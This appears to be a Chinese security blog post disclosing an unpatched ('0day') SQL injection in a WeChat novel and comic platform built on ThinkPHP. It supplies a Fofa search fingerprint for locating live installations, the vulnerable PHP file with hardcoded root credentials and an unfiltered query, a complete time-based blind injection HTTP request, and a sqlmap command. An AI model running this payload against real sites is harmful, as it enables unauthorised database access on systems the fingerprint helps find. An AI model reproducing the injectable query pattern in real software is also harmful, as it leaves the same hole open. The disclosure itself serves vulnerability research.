 #  微信公众号小说漫画系统存在前台SQL注入漏洞   
原创 Mstir  星悦安全   2024-10-04 11:13  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字关注我们 并设为  
星标  
## 0x00 前言  
  
******源码描述：修复版掌上阅读小说源码_公众号漫画源码可以打包漫画app，掌上阅读小说源码支持公众号、代理分站支付功能完善强大的小说源码，可以对接微信公众号、APP打包。支持对接个人微信收款。**  
  
**1新增签到、平台分享奖励书币、小说推广链接生成，更好的推广平台增加粘性。**  
  
**2.新增可自定义中间和底部导航。**  
  
**3.新增可添加章节广告增加收益.**  
  
**4.可以管理公众号菜单、消息推送、自定义回复。**  
  
**5.可以添加加盟商分站，可添加代理、自定义扣量。**  
  
**Fofa指纹:"/Public/home/mhjs/jquery.js"**  
  
****  
****  
**框架:ThinkPHP 3.2.3 Debug:True**  
## 0x01 漏洞分析&复现  
  
**在 jiekou.php 中是处理漫画收录的功能，若配置了正确的数据库链接，则存在SQL注入漏洞，下方直接传入sl和bookname 直接被带入到sql查询中，且无任何过滤.**  
```
<?php
header("Content-type: text/html; charset=utf-8");

$servername = "localhost";
$username = "root";
$password = "root";
$dbname = "www.pnp8.com";
$sl=$_POST['sl'];
$sl1=$_GET['sl1'];
$bookname=$_POST['bookname'];//书名
$author=$_POST['author'];//作者
$des=$_POST['des'];//简介
$tstype=$_POST['tstype'];//漫画首页分类
$sstype=$_POST['sstype'];//所属分类
$zishu=$_POST['zishu'];//简介
$litpic=$_POST['litpic'];//封面图
$time=$_POST['time'];//发布时间
$sharetitle=$_POST['sharetitle'];//发布时间
$mhtitle=$_POST['title'];//漫画标题
$jino=$_POST['jino'];//漫画编号
$mhbody=$_POST['content'];//漫画内容
$jine=$_POST['jine'];//阅读金额
$sex=$_POST['sex'];//阅读金额
$send=$_POST['send'];//打赏金额
$status=$_POST['status'];//小说状态(连载1/完结2)
$free_type=$_POST['free_type'];//属性(免费1/收费2)
$pay_num=$_POST['pay_num'];//第n话开始需要付费


// 漫画阅读数（3万-70万之间）
$reads_mh=mt_rand(30000, 700000);

// 漫画点赞数（1万-2万之间）
$dz_mh=mt_rand(10000, 20000);

// 章节点赞数（1万-2万之间）
$dzzj_mh=mt_rand(10000, 20000);

// 收藏数（5000-9000之间）
$sc_mh=mt_rand(5000, 9000);

// 打赏数（1000-5000之间）
$ds_mh=mt_rand(1000, 5000);

// 小说阅读数（1万-10万之间）
$reads_book=mt_rand(10000, 100000);

// 小说点赞数（3000-1万之间）
$dz_book=mt_rand(3000, 10000);

// 章节点赞数（3000-1万之间）
$dzzj_book=$dz_book;

// 收藏数（3000-5000之间）
$sc_book=mt_rand(3000, 5000);

// 打赏数（1000-3000之间）
$ds_book=mt_rand(1000, 3000);

// 创建连接
$conn = new mysqli($servername, $username, $password, $dbname);
mysqli_set_charset($conn, "utf8");
// 检测连接
if ($conn->connect_error) {
    die("fail: " . $conn->connect_error);
  return;
} 
if($sl1==3)
{
  for($i=114;$i<417;$i++)
  { $upsql="UPDATE vv_mh_list SET summary=share_desc where id=$i";
         $conn->query($upsql);
       echo ' 更新成功';
  }
       return;
}
//添加漫画
if($sl==1){
  if($bookname!=""){
    $stype="SELECT * FROM `vv_mh_list` where title='$bookname'";   ///这里存在注入
      $result=$conn->query($stype);
```  
  
**Payload:**  
```
POST /jiekou.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 20
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1
Origin: http://127.0.0.1
Pragma: no-cache
Referer: http://127.0.0.1/jiekou.php
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

sl=1&bookname=' AND (SELECT 2775 FROM (SELECT(SLEEP(5)))IiIJ)-- XrlG
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fBnkA8FHmoQcJsAPoK9THHmHLmttnydHX4EmdlljpjMeE5nFYibHicCr4agFkGuSS2z2icCf4aia6Nbg/640?wx_fmt=other&from=appmsg "")  
**python sqlmap.py -r a.txt --level=3 --dbms=mysql**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fBnkA8FHmoQcJsAPoK9THHxdEp6YpPF9k1xhFgro3foibQibicWKHcvnO7FVIj2cNLibBCD0cug5lJwg/640?wx_fmt=other&from=appmsg "")  
****  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**漫画系统源码关注公众号发送 241004 获取!**  
  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  

